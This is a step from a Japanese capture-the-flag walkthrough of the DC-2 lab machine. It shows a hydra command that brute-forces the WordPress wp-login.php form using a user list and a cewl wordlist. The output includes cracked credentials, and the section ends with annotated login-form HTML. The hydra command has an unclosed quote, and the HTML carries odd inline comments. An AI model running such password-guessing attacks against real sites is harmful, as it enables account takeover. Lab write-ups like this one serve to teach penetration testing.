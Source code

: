 16. WordPress の認証を解読する(hydra)

ユーザーファイルをパスワードの辞書ファイルが出来たので[Hydra]()を用いてオンラインでのパスワードクラックを行う

```sh
parrot01$ hydra -L users.txt -P cewl.txt dc-2 http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location

> login: jerry password: adipiscing
> login: tom password: parturient
```

- hydra
- L ユーザー名のリストファイル
- P パスワードファイル
- dc2 (ホストアドレス)
- http-form-post /wp-login.php (wp-login.php ページに Post する)
  - log=^USER^ (form の log の value に users.txt を適応)
  - pwd=^PASS^ (form の pwd の value に cewl.txt を適応)
  - wp-submit=Log In (form の wp-submit の value に' Log In' を代入)
  - testcookie=1:S=Location (testcookie に 1:S=Location を適応)

```html
<form name="loginform" id="loginform" <!-- action="http://dc-2/wp-login.php" -->
  <!-- method="post"> Post Method -->
  <p>
    <label for="user_login"
      >Username or Email Address<br />
      <input type="text" <!-- name="log" -- />
      id="user_login" class="input"
      <!-- value="jerry" -->
      size="20" /></label
    >
  </p>
  <p>
    <label for="user_pass"
      >Password<br />
      <input type="password" <!-- name="pwd" -- />
      id="user_pass" class="input"
      <!-- value="adipiscing" -->
      size="20" /></label
    >
  </p>
  <p class="forgetmenot">
    <label for="rememberme"
      ><input
        name="rememberme"
        type="checkbox"
        id="rememberme"
        value="forever"
      />
      Remember Me</label
    >
  </p>
  <p class="submit">
    <input type="submit" <!-- name="wp-submit" -- />
    id="wp-submit" class="button button-primary button-large"
    <!-- value="Log In" -->
    />
    <input type="hidden" <!-- name="redirect_to" -- />
    <!-- value="http://dc-2/wp-admin/" -->
    <input type="hidden" <!-- name="testcookie" -- />
    <!-- value="1" -->
    />
  </p>
</form>
```